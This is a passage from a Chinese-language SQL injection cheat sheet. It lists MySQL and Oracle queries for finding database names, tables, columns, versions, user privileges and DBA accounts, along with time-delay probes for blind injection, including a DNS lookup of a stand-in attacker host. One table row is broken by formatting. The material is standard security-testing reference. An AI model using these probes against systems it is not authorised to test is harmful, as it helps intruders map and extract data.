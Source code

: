 | 选择第N行     | SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 0    | #行从0开始编号        |
| -             | SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 1    | #行从0开始编号        |
| 选择第N个字符 | SELECT substr(‘abcd’, 3, 1)                                  | #返回c                |
| ASCII值-字符  | SELECT char(65)                                              | #返回A                |
| 字符-ASCII值  | SELECT ascii(‘A’)                                            | #返回65               |
| 字符串连接    | SELECT CONCAT(‘A’,‘B’)                                       | #返回AB               |
| -             | SELECT CONCAT(‘A’,‘B’,‘C’)                                   | #返回ABC              |
| 时间睡眠      | SELECT BENCHMARK(1000000,MD5(‘A’))                           | -                     |
| -             | SELECT SLEEP(5)                                              | #版本>= 5.0.12        |

### （二）Oracle数据库

| **释义**      | **SQL语句**                                                  | **其他**          |         |
| :------------ | :----------------------------------------------------------- | :---------------- | :------ |
| 当前数据库    | SELECT global_name FROM global_name                          | —                 |         |
| -             | SELECT name FROM v$database                                  | —                 |         |
| -             | SELECT instance_name FROM v$instance                         | —                 |         |
| -             | SELECT SYS.DATABASE_NAME FROM DUAL                           | —                 |         |
| 所有数据库    | SELECT DISTINCT owner FROM all_tables                        | —                 |         |
| 查询表名      | SELECT table_name FROM all_tables                            | —                 |         |
| -             | SELECT owner, table_name FROM all_tables                     | —                 |         |
| 查询列名      | SELECT column_name FROM all_tab_columns WHERE table_name = ‘blah’ | —                 |         |
| -             | SELECT column_name FROM all_tab_columns WHERE table_name = ‘blah’ and owner = ‘foo’ | —                 |         |
| 获取版本      | SELECT banner FROM v$version WHERE banner LIKE ‘Oracle%’     | —                 |         |
| -             | SELECT banner FROM v$version WHERE banner LIKE ‘TNS%’        | —                 |         |
| -             | SELECT version FROM v$instance                               | —                 |         |
| 当前用户      | SELECT user FROM dual                                        | —                 |         |
| 用户权限      | SELECT * FROM session_privs                                  | #当前权限         |         |
| -             | SELECT * FROM dba_sys_privs WHERE grantee = ‘DBSNMP’         | #列出用户的权限   |         |
| 列出DBA账户   | SELECT DISTINCT grantee FROM dba_sys_privs WHERE ADMIN_OPTION = ‘YES’ | —                 |         |
| 选择第N行     | SELECT username FROM (SELECT ROWNUM r, username FROM all_users ORDER BY username) WHERE r=9 | #第九行           |         |
| 选择第N个字符 | SELECT substr(‘abcd’, 3, 1) FROM dual                        | #第3个字符c       |         |
| ASCII值-字符  | SELECT chr(65) FROM dual                                     | #返回A            |         |
| 字符-ASCII值  | SELECT ascii(‘A’) FROM dual                                  | #返回65           |         |
| 字符串连接    | SELECT ‘A’ \                                                 | ‘B’ FROM dual     | #返回AB |
| 时间睡眠      | SELECT UTL_INADDR.get_host_name(‘10.0.0.1’) FROM dual        | #如果反向查询很慢 |         |
| -             | SELECT UTL_INADDR.get_host_address(‘blah.attacker.com’) FROM dual | #如果正向查询很慢 |         |

